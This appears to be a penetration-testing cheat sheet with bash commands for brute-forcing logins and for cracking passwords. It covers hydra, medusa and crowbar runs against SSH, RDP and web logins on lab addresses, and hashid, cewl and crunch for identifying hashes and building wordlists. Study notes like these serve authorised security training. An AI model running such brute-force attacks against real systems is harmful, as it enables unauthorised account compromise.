 ```bash
gzip -d rockyou.txt.gz

hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201

hydra -l eve -P wordlist 192.168.50.214 -t 4 ssh -V

hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202

hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:fm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

Attempt to gain access to an htaccess-protected folder, /admin

```bash
medusa -h 10.11.0.22 -u admin -P /usr/share/wordlists/rockyou.txt -M http -m DIR:/admin
```

Remote Desktop Protocol Attack with Crowbar

```bash
sudo apt install crowbar
crowbar -b rdp -s 10.11.0.22/32 -u admin -C ~/password-file.txt -n 1
```

## Password Cracking

Hash type identification

```bash
hashid c43ee559d69bc7f691fe2fbfe8a5ef0a
```

### Mutating Wordlists

```bash
cewl www.megacorpone.com -m 6 -w megacorp-cewl.txt
```

Delete all lines starting with a "1"

```bash
sed -i '/^1/d' demo.txt
```

Generate a custom wordlist, set the minimum and maximum length to 6 characters, specify the pattern using the -t parameter, then hard-code the first 3 characters to Lab followed by three numeric digits, path to the character set file (-f)

* @:	Lower case alpha characters
* ,:	Upper case alpha characters
* %:	Numeric characters
* ^:	Special characters including space

The mixed alpha set mixalpha, which includes all lower and upper case letters

```bash
crunch 6 6 -t Lab%%% > wordlist

crunch 8 8 -t ,@@^^%%%

crunch 4 6 0123456789ABCDEF -o crunch.txt

crunch 4 6 -f /usr/share/crunch/charset.lst mixalpha -o crunch.txt
```
